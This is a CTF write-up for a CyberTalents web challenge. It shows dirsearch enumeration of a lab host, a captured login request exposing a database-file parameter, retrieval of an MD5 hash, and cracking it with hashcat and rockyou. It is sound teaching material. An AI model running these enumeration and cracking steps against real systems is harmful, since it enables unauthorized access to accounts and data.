



# Solve Encrypted Database
### https://cybertalents.com/challenges/web/encrypted-database



### Run Directory bruteforce
```bash
dirsearch -u http://wcamxwl32pue3e6mxmdvww5c1v58j6zqdkgxu639-web.cybertalentslabs.com/ -x 403,404
```
Output
```
Target: http://wcamxwl32pue3e6mxmdvww5c1v58j6zqdkgxu639-web.cybertalentslabs.com/

[23:38:15] Starting: 
[23:38:39] 200 -    2KB - /admin/
[23:38:39] 200 -    2KB - /admin/index.php   
```

### Navigate to /admin/index.php 


### Analyze login request with burp 
```http
POST /admin/index.php HTTP/1.1
Host: wcamxwl32pue3e6mxmdvww5c1v58j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wcamxwl32pue3e6mxmdvww5c1v58j6zqdkgxu639-web.cybertalentslabs.com/
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Connection: close
Cookie: PHPSESSID=jpila7dvlka1ctjjvkcklqbhf9
Upgrade-Insecure-Requests: 1

username=admin&password=admin&db=secret-database%2Fdb.json
```

A hidden parameter `secret-database/db.json`

### Navigate to admin/secret-database/db.json



We found MD5 hash `ab003765f3424bf8e2c8d1d69762d72c` 

#### Crack MD5 hash with hashcat 

```bash 
hashcat -a 0 -m 0 hashs /usr/share/wordlists/rockyou.txt
```

ab003765f3424bf8e2c8d1d69762d72c:badboy

flag is `badboy`

>Find More on ==> github.com/MedhatHassan 